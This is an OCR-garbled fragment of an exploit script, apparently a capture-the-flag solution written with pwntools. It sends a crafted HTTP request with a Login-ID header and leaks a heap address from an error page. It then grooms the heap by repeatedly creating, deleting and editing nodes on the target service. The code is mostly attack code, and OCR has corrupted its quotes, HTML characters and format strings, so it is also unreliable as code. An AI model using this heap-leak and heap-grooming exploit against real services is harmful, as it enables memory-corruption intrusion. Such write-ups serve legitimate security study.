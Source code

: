 payload += “Login-ID: 12345\r\n”

payload += “\r\n”

# pause()

io.send(payload)

io.recvuntil(b”&lt;p&gt;The requested URL x”)

# print(hexdump(io.recvuntil(” was not”, drop = True)))

heap = u64(b”\0″ + io.recvuntil(b” was not”, drop = True) + b”\0\0″) &gt;&gt; 12 &lt;&lt; 12

print(“heap @ `{`:#x`}`”.format(heap))

​

​

# pause()

login(‘0’ * 8, “”)

for i in range(16):

    payload = quote((p8(i) * 0x17))

    new_node(‘0’ * 8, payload)

​

# get_node(‘0’ * 8)

for i in range(16):

    delete_node(‘0’ * 8, i)

​

​

# pause()

​

for i in range(16):

    payload = quote((p8(i) * 0x17))

    new_node(‘0’ * 8, ”)

​

edit_note(‘0’*8, ‘a’*8, 0)
